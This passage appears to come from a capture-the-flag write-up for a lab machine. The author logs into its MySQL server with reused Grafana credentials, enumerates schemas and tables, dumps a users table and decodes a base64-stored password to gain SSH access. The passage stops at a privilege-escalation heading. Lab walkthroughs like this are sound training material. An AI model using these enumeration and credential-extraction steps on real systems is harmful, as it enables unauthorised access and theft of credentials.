 We can now connect to the database with `mysql -h 10.10.11.183 -u grafana -p` and the password we got before, let's see what we can find:

```
MySQL [(none)]> select schema_name from information_schema.schemata;
+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| sys                |
| whackywidget       |
| grafana            |
+--------------------+
6 rows in set (0.067 sec)

MySQL [(none)]> select table_name from information_schema.tables where table_schema="whackywidget";
+------------+
| TABLE_NAME |
+------------+
| users      |
+------------+
1 row in set (0.057 sec)

MySQL [(none)]> select column_name from information_schema.columns where table_name="users";
+---------------------+
| COLUMN_NAME         |
+---------------------+
| CURRENT_CONNECTIONS |
| TOTAL_CONNECTIONS   |
| USER                |
| pass                |
| user                |
+---------------------+
5 rows in set (0.066 sec)

MySQL [whackywidget]> select user,pass from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.052 sec)
```

Oh! Since the password is in base64, it is easy to get the credentials in plain text: `developer:anEnglishManInNewYork027468`. This credentials allow us to access the machine through SSH and also get the first flag.

## Privilege escalation
